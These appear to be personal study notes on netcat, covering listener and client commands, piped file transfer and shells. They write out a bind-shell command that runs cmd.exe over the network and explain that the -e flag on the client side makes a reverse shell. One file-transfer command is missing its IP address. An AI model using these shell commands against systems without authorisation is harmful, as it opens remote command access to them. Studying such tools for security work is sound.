

# netcat

server side : `nc -nlvp 4444`  
client side: `nc -nv 10.0.0.22 4444`

-n : don't use dns to resolve  
-v : verbose   
-l : listen
-p : local port number

after server has a connection with client;    
connection is **persistant**

- server side  

- client side  

every side terminate the nc will terminate nc on the other side

## transfer file

use the same command as above,  
nc support **binary file from pipe**

- server side  
    nc -nlvp 4444 > b.txt
- client side
    nc -nv 4444 < a.txt

## shell

-e in netcat means "program to exec after connection"

this means netcat will direct all inpu, output, error from network to the program

### basic shell

- server side
`nc -nlvp 4444 -e cmd.exe`

- client side 
`nc -nv 192.168.1.230 4444`

### reverse shell

since both side can send message. 
if client side use `-e` parameter, this becomes a reverse shell